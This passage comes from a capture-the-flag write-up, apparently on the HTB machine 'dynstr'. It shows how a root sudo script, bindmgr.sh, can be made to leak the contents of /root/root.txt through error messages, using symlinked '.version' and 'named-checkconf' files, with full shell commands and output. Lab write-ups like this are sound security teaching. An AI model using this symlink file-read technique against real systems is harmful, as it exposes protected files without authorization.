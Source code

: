 `-h` or `-L` would have been appropriate choices here.

As long as the file points to a valid file that exists and is readable
by root, then it will pass that check. What happens if I symlink
`.version` to `root.txt`? It will then try to compare the contents to
the `.version` file in `/etc/bind/named.bindmgr`.

I'll drop into a new temp directory and try:



    bindmgr@dynstr:/dev/shm$ cd $(mktemp -d)
    bindmgr@dynstr:/tmp/tmp.3gN0fV4V9D$ ln -s /root/root.txt .version
    bindmgr@dynstr:/tmp/tmp.3gN0fV4V9D$ sudo bindmgr.sh 
    sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
    [+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/tmp.3gN0fV4V9D.
    /usr/local/bin/bindmgr.sh: line 28: [[: 5dd462205002e72de695163969729020: value too great for base (error token is "5dd462205002e72de695163969729020")
    [+] Creating /etc/bind/named.conf.bindmgr file.
    [+] Staging files to /etc/bind/named.bindmgr.
    cp: cannot stat '*': No such file or directory
    [+] Checking staged configuration.
    [-] ERROR: The generated configuration is not valid. Please fix following errors: 
        /etc/bind/named.conf.bindmgr:2: open: /etc/bind/named.bindmgr/*: file not found



It doesn't like comparing the flag to a number, and prints the flag in
the error message. When InfoSecJack got first blood, this was the
technique he used.

Similarly, shortcutting `named-checkconf` to the flag will print all but
the last two characters in it's error message:



    bindmgr@dynstr:/tmp$ cd $(mktemp -d)
    bindmgr@dynstr:/tmp/tmp.TTFzU6A8E7$ echo 1000 > .version
    bindmgr@dynstr:/tmp/tmp.TTFzU6A8E7$ ln -s /root/root.txt named-checkconf
    bindmgr@dynstr:/tmp/tmp.TTFzU6A8E7$ sudo bindmgr.sh 
    sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
    [+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/tmp.TTFzU6A8E7.
    [+] Creating /etc/bind/named.conf.bindmgr file.
    [+] Staging files to /etc/bind/named.bindmgr.
    [+] Checking staged configuration.
    [-] ERROR: The generated configuration is not valid. Please fix following errors: 
        /etc/bind/named.bindmgr/named-checkconf:1: unknown option '5dd462205002e72de6951639697290...'
        /etc/bind/named.conf.bindmgr:3: unexpected token near end of file



#### More Than You Even Wanted To Know About Bash Number Comparisons

You have to get a bit lucky for this one to work, as it won't display
for all flags. When I originally solved this, the leak worked, and I got
the notes from just above. When verifying it months later for this post,
it didn't and that's because the newly random `root.txt` started with
`f`. The flag needs to start with a digit for this path.
